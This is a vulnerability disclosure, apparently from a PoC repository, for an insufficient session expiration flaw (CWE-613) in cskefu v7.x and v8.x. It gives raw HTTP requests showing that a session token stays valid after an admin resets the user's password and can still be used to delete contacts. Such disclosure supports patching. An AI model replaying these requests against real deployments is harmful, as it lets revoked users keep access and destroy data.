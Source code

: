 ## TYPE: Insufficient Session Expiration(CWE-613)
## Date: 5/12/2024

## Basic Information
+ Vendor: [cskefu](https://github.com/cskefu)
+ Homepage: https://github.com/cskefu/cskefu
+ **Affected Version**: v7.x, v8.x

## Tested on: Debian Linux

## Exploit Description
The user can still operate successfully after the admin changes/reset the user's password.
The system is affected by CWE613-Insufficient Session Expiration, which indicates that previous sessions or authentication tokens tied to the old password remain valid and can still be utilized.

### PoC: admin changes/resets user password, user can still operate.
+ **PoC video** [reference](https://1drv.ms/v/s!AmTWEcd1YDpUjg095kRTaxRVZaU8?e=jsHtoK)
+ **Steps**:
1. `admin` login, `user1` login.

`user1` login:
```
POST /login.html HTTP/1.1
username=user1&password=user123
...
response:
HTTP/1.1 302
Set-Cookie: authorization=7a9e00c3aba14cfe9b7577a614030ecf
```
3. `admin` modify `user1`'s password.
   ```
   POST /api/user HTTP/1.1
   Cookie: _ga=GA1.1.841718065.1715481718; SESSION=3f0bb1c3-bf2d-4787-9a50-617e8bc98ee5; authorization=649dda8bf02f44b98c824ae57e2a839b; _ga_SBBX10RKTC=GS1.1.1715495361.3.1.1715495367.
   ...
   {"id":"2c9280868f6aa4a9018f6b5c9b1c008a","username":"user1","uname":"user1","email":"","password":"admin123","repassword":"admin123","mobile":"","ops":"update"}
   ```
4. `user1` still be online, and can operate successfully with the old session/token, like deleting contacts.
<img width="1104" alt="image" src="https://github.com/menghaining/PoC/assets/32480426/058d3cce-1e40-4c74-b1be-d4bf85114a55">

```
GET /apps/contacts/delete.pug?id=95027150558c4e25a58d3907ee6fda99&ckind= HTTP/1.1
Cookie: _ga=GA1.1.1578594732.1715483346; SESSION=0dcc6821-75df-46ae-a5ce-27e217915007; authorization=7a9e00c3aba14cfe9b7577a614030ecf; _ga_SBBX10RKTC=GS1.1.1715493138.2.1.1715495577.0.0.0
...
```
<img width="723" alt="image" src="https://github.com/menghaining/PoC/assets/32480426/75300894-db56-4844-935e-c65b4a5e8dff">

+ https://github.com/cskefu/cskefu/issues/1018

